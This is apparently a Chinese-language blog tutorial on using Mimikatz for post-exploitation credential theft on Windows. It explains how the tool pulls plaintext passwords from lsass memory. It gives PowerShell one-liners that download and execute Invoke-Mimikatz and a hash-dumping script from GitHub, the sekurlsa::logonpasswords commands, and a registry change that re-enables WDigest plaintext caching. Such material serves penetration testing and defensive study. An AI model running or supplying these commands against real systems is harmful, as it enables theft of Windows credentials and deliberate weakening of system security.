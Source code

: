 # 后渗透Mimikatz使用大全

https://www.cnblogs.com/-mo-/p/11890232.html

发布于 2020-03-27 20:29

### 0x00 简介

Mimikatz 是一款功能强大的轻量级调试神器，通过它你可以提升进程权限注入进程读取进程内存，当然他最大的亮点就是他可以直接从 lsass.exe 进程中获取当前登录系统用户名的密码， lsass是微软Windows系统的安全机制它主要用于本地安全和登陆策略，通常我们在登陆系统时输入密码之后，密码便会储存在 lsass内存中，经过其 wdigest 和 tspkg 两个模块调用后，对其使用可逆的算法进行加密并存储在内存之中， 而 mimikatz 正是通过对lsass逆算获取到明文密码！也就是说只要你不重启电脑，就可以通过他获取到登陆密码，只限当前登陆系统！

注：但是在安装了KB2871997补丁或者系统版本大于windows server 2012时，系统的内存中就不再保存明文的密码，这样利用mimikatz就不能从内存中读出明文密码了。mimikatz的使用需要administrator用户执行，administrators中的其他用户都不行。

这里放几个神器的运行姿势：九种姿势运行：Mimikatz：https://www.freebuf.com/articles/web/176796.html

借用PowerShell

```powershell
#读取密码明文(需要管理员权限)
powershell IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/mattifestation/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz –DumpCerts
```

```powershell
#读取密码hash值(需要管理员权限)
powershell IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/samratashok/nishang/master/Gather/Get-PassHashes.ps1');Get-PassHashes
```

![](https://img2018.cnblogs.com/blog/1561366/201911/1561366-20191119154410801-226108089.png)

### 0x01 获取本地帐户密码

#### 1.1 本地执行

下载mimikatz程序，找到自己系统对应的位数，右键以管理员身份运行：

```makefile
#提升权限
privilege::debug

#抓取密码
sekurlsa::logonpasswords
```

当目标为win10或2012R2以上时，默认在内存缓存中禁止保存明文密码，但可以通过修改注册表的方式抓取明文。

cmd修改注册表命令：

```dockerfile
reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1 /f
#重启或用户重新登录后可以成功抓取
```
